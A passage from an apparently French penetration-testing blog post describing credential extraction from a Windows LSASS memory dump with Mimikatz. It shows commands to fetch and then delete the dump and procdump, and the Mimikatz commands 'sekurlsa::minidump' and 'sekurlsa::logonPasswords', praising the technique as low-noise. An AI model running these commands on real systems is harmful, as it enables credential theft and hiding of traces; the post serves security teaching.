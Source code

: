 ```
# get lsass.dmp
# del procdump.exe
# del lsass.dmp
```

L'extraction des identifiants se fait de la manière suivante avec Mimikatz : la première ligne permet de charger le dump mémoire, et la deuxième d'extraire les secrets.

[![Mimikatz Dump](/assets/uploads/2019/11/mimikatz_dump.png)](/assets/uploads/2019/11/mimikatz_dump.png)


```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords
```

Cette technique est très pratique puisqu'elle ne génère pas beaucoup de bruit et seul un logiciel légitime est utilisé sur les cibles. 


## Limites & Améliorations

Il existe différentes limitations à cette méthode. Nous allons les exposer ici, et proposer des améliorations afin d'y remédier.

### Linux / Windows
